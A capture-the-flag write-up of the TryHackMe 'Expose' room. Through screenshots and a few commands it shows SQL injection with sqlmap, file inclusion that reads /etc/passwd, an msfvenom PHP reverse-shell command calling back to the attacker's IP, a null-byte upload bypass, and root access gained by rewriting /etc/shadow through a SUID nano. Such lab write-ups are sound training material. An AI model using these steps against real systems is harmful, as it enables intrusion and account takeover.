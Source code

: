 # Expose TryHackMe Room Write-Up

## Task 1: Host enumeration

Added the IP to /etc/hosts and conducted an initial port scan:

1.1 Looking for open ports `nmap -sC -sV expose.thm`. Discovered 3 open ports:

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/bda7f7e8-19c5-4942-849e-b4ecb4295195)

1.2 Checking `ftp` service login with anonymous login

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/281d580a-595e-465e-a3e5-dab8a5c31f6d)

After some brief search found that there are no files :(

1.3 At 51 port running DNS server so we should try to enumerate subdomains. But we didn't find any http services, lets move forward with scanning ports. I found 2 more.

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/5e05ea32-f01c-4b0b-a9fb-537292ff09a3)

Check for http acess first for 1337. We got some

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/76e3ebec-b9d4-4a7a-9815-9339148e4579)

1.4 Used `dirb` to enumerate directories first

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/131ea0a3-f648-4f0f-ac48-57ac8343ec78)

Here we have some admin login page

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/3ae9d8a1-8756-4068-9036-ed8611d04d91)

Also we have such code at assets, maybe this will help us in the future

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/8db31481-c72d-48fc-ab9c-b426ed90fb72)

Found phpMyAdmin as well

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/e5f48f3a-9176-4f92-8706-1e5106fb6ff6)

Go to documentation and found version of service. 

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/7e29091d-0914-440e-ac21-bbc3e3f02dd1)

After search I din't find any exploits for this version. Maybe 1883 will give us some interesting possibilities

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/603a2db7-17ce-4c88-a109-6e57f3a81618)

I lost about one hour to figure connect and play with this service, but with no result. 

1.5 Bypass admin panel

I used gobuster one more time and found another one admin panel 

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/1f56268e-418a-4717-93b5-bc47e3c1080e)

I saw in tags text for this room somethin about sqlmap, maybe its out chance? I didn't find anything usefull so far. Save POST request to file

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/b08d9c98-8cdb-4e1c-bc25-23b19f32d210)

Run sqlmap with it and here is the result. We got the password!

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/b96b603c-1cf7-45d6-af09-e9999eedca35)

Log in and there is nothing 

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/0c98070c-96d6-4af9-8c0d-3b8a9de582c5)

Also sqlmap give us some new pages one of them asking password 

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/ed16b313-a5cb-4b3e-aa94-b96168b4b9bb)

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/1f3ffc4a-f133-44ef-a26c-3caf71c67da4)

Used cracked password and we entered to the almost empty page 

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/bbee1b90-5143-4a77-91ed-13b0ea6b09f4)

After code inspection we can found this

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/44e4a2ba-65cb-49dd-bac2-b1d53bdda35c)

We can add simple parameter `?file=index.php` to the request. And our page goes crazy :)

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/05fb47be-d23f-4437-a242-0fefbd7860d3)

Lest try to open other files like /etc/passwd and here we are 

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/ae964973-5d35-4846-8617-6f19b70c55c2)

Visit another page from sqlmap result

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/67cc6098-fbe1-4171-ab39-6431ce20f64b)

Found the password was easy with /etc/passwd file 

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/040172a3-049f-4e3e-bacc-becc99e1b2dc)

We have upload file field, so maybe we can establish reverse shell 

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/a58b9382-de08-4943-a7a6-0f03565c1588)

Lets create reverse shell with command `msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.94.246 LPORT=4443 -f raw -o shell.php`

Added %00 after .php extension to bypass check

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/8b7a0b8f-7aef-4082-90bf-a4ea07703c25)

Lets check source code as message suggest 

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/ac66405a-313a-4dc7-b204-5878fe479583)

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/fa6cf4a9-0681-41af-936a-dd9130ac692f)

Go to this folder + file name. And our method doesn't work 

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/fee2e9dd-72cb-43e2-89c2-f2daee487f7d)

Tried different approach. Used Burp to add directly into POST request zero bite

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/c625d65a-3152-4b3e-b462-7ccf3ff59473)

Success! Run our php script and check `nc` listener. (I hope you already listen at te right port)

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/2cdc370b-3b90-4ac6-bf46-a5c58af75b4c)

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/05c1adaf-e74b-44ca-bc8f-523048260373)

## Task 2: Capture the flags

2.1 User flag is at `zeamkish` home directory, but we don't have permission to read it. By the way there are ssh_creds file. Lets try credentials

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/092b0685-ab55-4119-9aa7-f665b2ffd493)

2.2 Eveything is fine. User flag is ours 

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/0da24fa9-bb8e-4e06-a830-27a555b201cd)

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/3edd1a2e-4b8f-4c92-a461-32156b56cb31)

2.3 Search for some ways to escalate priveleges `find / -perm /4000 2>/dev/null`. Interesting suid bit at nano

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/fd2d715d-2d00-4e12-9dcd-0b2e46fdbb8a)

We can read-write /etc/shadow file 

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/6927ecc5-e00d-45e2-8522-38b6b61467d9)

2.4 Generate password with command `openssl passwd -1 -salt root Password`

And now we need to write this to /etc/shadow 

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/1c7b056d-60cb-45ee-88bf-5fd215e1902a)

2.5 Change user to root and capture the root flag :)

![image](https://github.com/vkhalaim/TryHackMe-Writeups/assets/6991893/192d34f5-9c77-4f16-b535-7b7764974916)


*Note: This write-up is intended for educational purposes and highlights the steps taken during the Expose [TryHackMe](https://tryhackme.com/room/expose) room.*






